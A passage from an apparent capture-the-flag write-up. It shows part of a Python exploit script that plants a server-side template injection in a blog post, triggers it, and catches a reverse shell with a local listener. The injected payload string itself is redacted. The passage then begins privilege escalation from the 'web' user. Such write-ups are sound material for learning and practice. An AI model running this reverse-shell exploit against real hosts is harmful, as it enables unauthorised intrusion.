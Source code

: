```py
		print("[+] User loged in! [+]")
	else:
		print("[+] User not loged in, see burp! [+]")

# Get the reverse shell with the command injection vulnerability
def revShellSSTIInjection(rhost,lhost,lport):
	# Now let's trigger it
	print("[+] Now, let's trigger it [+]")
	payload = "+++++++ OMITED +++++++"
	url = "http://%s:80/post/new" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"title": "%s" %payload, "content": "Reverse Shell", "submit": "Post"}
	r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
	# Now trigger it
	url = "http://%s:80/archive" %rhost
	headers = {"Upgrade-Insecure-Requests": "1", "Cache-Control": "max-age=0"}
	r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip appress', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport= args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create a login
    createLogin(rhost)
    # Logging on the app
    Login(rhost)
    # Getting the reverse shell
    revShellSSTIInjection(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```

So, lets procced on this box

# web -> shaun

We see that our user web, is part of the `adm` group. It can read log files, it is interesting
